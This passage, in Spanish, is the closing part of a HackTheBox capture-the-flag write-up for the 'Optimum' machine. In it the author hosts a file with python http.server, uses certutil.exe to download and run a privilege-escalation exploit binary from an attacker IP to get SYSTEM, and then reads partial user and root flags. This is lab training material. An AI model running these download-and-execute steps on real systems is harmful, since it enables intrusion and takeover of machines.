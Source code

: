 ```bash
sudo python3 -m http.server 80
```

En la máquina objetivo accedemos a la carpeta `C:\Windows/Temp` y creamos una nueva carpeta denominada `priv`.

```bash
cd C:\Windows\Temp
mkdir priv
cd priv
```

Ahora con `certutil.exe` realizamos la carga del binario y le asignamos el nombre `exploit.exe`

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/41020.exe exploit.exe
```

Finalmente ejecutamos el exploit y obtenemos acceso a el usuario `nt authority/system`

```bash
exploit.exe
whoami
nt authority/system
```

¡Listo! Logramos una shell con un usuario administrador.

## FLAGS

Lo único que nos queda es leer las banderas de user y root. Pueden ver la flag con `type`, pero para hacerlo más retador solo dejaré los primeros 10 caracteres de la flag. 

```bash
cd C:\
dir /b/s user.txt*
C:\Users\kostas\Desktop\user.txt.txt
set /P user=<"C:\Users\kostas\Desktop\user.txt.txt"
echo.%user:~1,10%
0c39409d7b
```

```bash
dir /b/s root.txt
C:\Users\Administrator\Desktop\root.txt
set /P root=<"C:\Users\Administrator\Desktop\root.txt"
echo.%root:~1,10%
1ed1b36553
```

¡Hemos logrado completar la máquina `optimum` de HackTheBox!

<p align="center">
<img src="/assets/images/optimum/04-finish.png">